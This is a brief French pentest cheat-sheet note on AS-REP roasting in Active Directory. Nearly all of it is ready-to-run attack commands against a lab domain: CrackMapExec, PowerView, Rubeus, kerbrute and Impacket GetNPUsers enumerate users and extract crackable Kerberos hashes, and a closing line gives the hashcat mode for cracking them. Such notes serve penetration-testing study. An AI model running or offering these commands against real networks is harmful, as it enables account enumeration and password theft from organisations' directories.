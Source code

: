 ```yaml
---
public: true # set to true to make the article publishable
---
```



```powershell
cme ldap  $TARGET -u users.lst -p '' --asreproast asrep.txt

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

Cassage du mot de passe avec hashcat  : mode 18200
[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]